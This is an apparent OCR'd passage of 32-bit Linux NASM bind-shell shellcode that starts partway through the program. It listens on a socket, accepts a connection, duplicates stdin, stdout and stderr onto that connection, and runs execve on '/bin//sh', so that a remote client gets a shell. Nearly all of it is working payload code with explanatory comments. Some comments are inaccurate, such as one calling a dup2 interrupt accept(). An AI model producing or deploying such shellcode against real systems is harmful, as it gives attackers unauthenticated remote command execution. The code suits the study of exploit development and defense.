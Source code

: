 ```nasm
int 0x80          ; System Call Interrupt 0x80

; 4. Listen for incoming connections on TCP-IP Socket.
; <socketcall>   listen( ipv4Socket, 0 );  
;   EAX=0x66      EBX      ECX[0]   ECX[1]  
xor eax, eax     ; This sets the EAX Register to NULL (all zeros).
mov al, 0x66     ; EAX is now 0x00000066 = SYSCALL 102 - socketcall
xor ebx, ebx     ; This sets the EBX Register to NULL (all zeros).
mov bl, 0x4      ; EBX is set to listen().
xor ecx, ecx     ; This sets the ECX Register to NULL (all zeros).
push ecx         ; ECX[1]. Push the value 0x0 to the stack.
push esi         ; ECX[0]. This is the value we saved from creating the Socket earlier. 
mov ecx, esp     ; Point ECX to the top of the stack. 
int 0x80         ; Executes listen(). Allowing us to handle incoming TCP-IP Connections.

; 5. Accept the incoming connection, and create a connected session.
; <socketcall>   clientSocket = accept( ipv4Socket, NULL, NULL ); 
;   EAX=0x66                     EBX     ECX[0]    ECX[1] ECX[2] 
xor eax, eax     ; This sets the EAX Register to NULL (all zeros).
mov al, 0x66     ; EAX is now 0x00000066 = SYSCALL 102 - socketcall 
xor ebx, ebx     ; This sets the EBX Register to NULL (all zeros).
mov bl, 0x5      ; EBX is set to accept().
xor ecx, ecx     ; This sets the ECX Register to NULL (all zeros).
push ecx         ; ECX[2]. Push the value 0x0 to the stack.
push ecx         ; ECX[1]. Push the value 0x0 to the stack.
push esi         ; ECX[0]. This is the value we saved from creating the Socket earlier.
mov ecx, esp     ; Point ECX to the top of the stack.
int 0x80         ; System Call Interrupt 0x80 
xchg ebx, eax    ; The created clientSocket is stored in EAX after receiving a connection.

; 5. Transfer STDIN, STDOUT, STDERR to the connected Socket.
; dup2( clientSocket, 0 ); // STDIN 
; dup2( clientSocket, 1 ); // STDOUT
; dup2( clientSocket, 2 ); // STDERR
; EAX       EBX      ECX
xor eax, eax   ; This sets the EAX Register to NULL (all zeros).
xor ecx, ecx   ; This sets the ECX Register to NULL (all zeros).
mov cl, 0x2    ; This sets the loop counter, and
               ;  will also be the value of "int newfd" for the 3 dup2 SYSCAL's.
dup2Loop:      ; Procedure label for the dup2 Loop.
mov al, 0x3f   ; EAX is now 0x0000003F = SYSCALL 63 - dup2
int 0x80       ; System Call Interrupt 0x80 - Executes accept(). 
               ;   Allowing us to create connected Sockets. 
dec ecx        ; Decrements ECX by 1 
jns dup2Loop   ; Jump back to the dup2Loop Procedure until ECX equals 0.

; 7. Spawn a "/bin/sh" shell for the client, in the connected session. 
; execve("/bin//sh", NULL, NULL);
;  EAX      EBX       ECX   EDX
push edx         ; Push NULL to terminate the string.
push 0x68732f2f	 ; "hs//" - Needs to be 4 bytes to fit on stack properly
push 0x6e69622f  ; "nib/" - This is "/bin//sh" backwards.
mov ebx, esp     ; point ebx to stack where /bin//sh +\x00 is located
mov ecx, edx     ; NULL
mov al, 0xb      ; execve System Call Number - 11
int 0x80         ; execute execve with system call interrupt
```


[1]: 1
[1]: 1